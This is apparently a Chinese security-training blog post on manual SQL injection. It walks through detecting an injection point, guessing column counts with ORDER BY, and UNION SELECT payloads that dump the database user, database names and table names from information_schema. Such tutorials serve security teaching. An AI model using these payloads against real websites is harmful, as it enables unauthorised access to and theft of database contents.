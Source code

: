 ```yaml
---
title: 【网络安全4x02】洞明科技网络安全培训 --- day2
date: 2020-08-21 23:35:08
tags: [网络安全]
---
```


第二天讲sql注入以及其中的一些绕过方法。



# 手动注入

## 1. 判断是否存在注入点

``` sql
?id=33 and 1=1  #恒真
?id=33 and 1=2  #恒假
```

## 2. 猜列数

``` sql
?id=33 order by x
```

二分查找。

## 3. union查询爆当前数据库名

``` sql
?id=-33 union select 1,2,binary(group_concat(user(),database(),curtime())),4,5,6,7,8,9,10,11,12,13,14,15
```

这里加负号避免前面正常显示的数据占用了位置导致后面不显示。

## 4. 爆数据库列表

``` sql
?id=-33 union select 1,2,binary(group_concat(schema_name)),4,5,6,7,8,9,10,11,12,13,14,15 from information_schema.schemata
```

`group_concat`可以将查到的全部信息一行显示。

## 5. 爆tables列表

``` sql
?id=-33 union select 1,2,binary(group_concat(table_name)),4,5,6,7,8,9,10,11,12,13,14,15 from information_schema.tables where table_schema='cms'
```
